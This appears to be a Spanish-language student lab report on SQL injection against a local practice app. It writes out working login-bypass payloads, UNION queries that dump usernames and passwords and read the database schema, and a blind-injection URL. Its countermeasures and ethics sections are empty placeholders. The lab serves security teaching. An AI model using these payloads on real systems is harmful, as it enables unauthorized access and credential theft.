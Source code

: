 # Laboratorio SQL Injection - Análisis de Vulnerabilidades
## Información del Equipo
- **Integrante 1:** Keiner Astos - KeinerAstos
- **Integrante 2:** Sebastian Gil - [Usuario GitHub]
- **Fecha:** 25/9/2025
## 1. Instalación y Configuración
[Instrucciones actualizadas para instalar el laboratorio]
## 2. Vulnerabilidades Identificadas
### 2.1 Login Bypass
**Payload utilizado:**
#### 1. Basico 
##### Usuario
```sql
admin ' -- #usuario
```
##### Contraseña - password
```sql
keiner123 ' -- #contraseña
```
![alt text](image.png)

al momento de realizar la inyeccion en usuario lo que esta haciendo el codigo es comentar lo que sigue a continuacion dentro de la consulta sql, elminando la contraseña como condición para acceder

#### 2. Basico
##### Usuario
```sql
user1' OR '1'='1
```
##### Contraseña - password
```sql
sebastian ' -- #contraseña
```
![alt text](image-1.png)
dentro de esta consulta lo que estamos haciendo es volver verdadera la condicion de sql comparando 1 = 1 con un or donde si el usuario existe ya va a dar verdadera la condición sin ningun problema para acceder

#### 3. Basico
##### Usuario
```sql
' OR 1=1 --
```
##### Contraseña - password
```sql
cualquiera ' -- #contraseña
```
![alt text](image-2.png)
retorna el primer usuario registrado en la base de datos, en este caso es admin y comenta lo que va despues del usuario con el fin de dar un true en el inicio de sesion y entrando con exito al perfil admin

#### 4. Otras pruebas
##### Usuario
```sql
admin'/*
```
##### Contraseña - password
```sql
*/OR/* -- #contraseña
```
lo que hace es comentar el bloque de sql haciendo un true en la validacion con la contraseña, donde se pone cualquiera de los usuarios que estan dentro de la base de datos

### 2.2 Union-Based Injection

#### 1. Detectar numero de columnas
##### Buscar producto
```sql
' ORDER BY 1 --
```
Nos muestra el numro de colmunas que tiene la tabla en el formato de busqueda, por lo que podemos inferir que tienen 6 colmunas la tabla ya que eso es lo que nos muestra la hacer la consulta.

![alt text](image-3.png)
#### 2. Mostrar estructura de la tabla users
Cuando realizamos la siguinete consulta dentro del input nos deberia de mostrar la estructura de la tabla de users, pero nos esta devolviendo solamente el nombre de la tabla

```sql
' UNION SELECT 1,sql,2,3 FROM sqlite_master WHERE name='users' --
```
![alt text](image-4.png)
#### Consulta de datos 
Podemos identificar que al momento de poner las siguientes lineas de codigo dentro del input, nos esta devolviendo un query con toda la información de datos que se encuentran dentro de los usuarios
```sql
' UNION SELECT 1,GROUP_CONCAT(username||':'||password),3,4 FROM users --
```
![alt text](image-5.png)
esto es bastante importante a la hora de poder entrar a diferentes perfiles de los usuarios y adquirir informacion de la misma

#### Numero total de usuarios
```sql
' UNION SELECT COUNT(*),2,3,4 FROM users --
```
Ientificamos en el item 5 el resultado de la consulta
![alt text](image-6.png)

### 2.3 Blind SQL Injection
```
http://localhost:8000/user/1'%20AND%201=1%20--
```
![alt text](image-7.png)


## 3. Técnicas de Explotación y Evidencias
[Screenshots y código de payloads utilizados]
## 4. Análisis de Impacto y Contramedidas
[Soluciones técnicas propuestas]
## 5. Reflexión Ética del Equipo
[Consideraciones sobre uso responsables]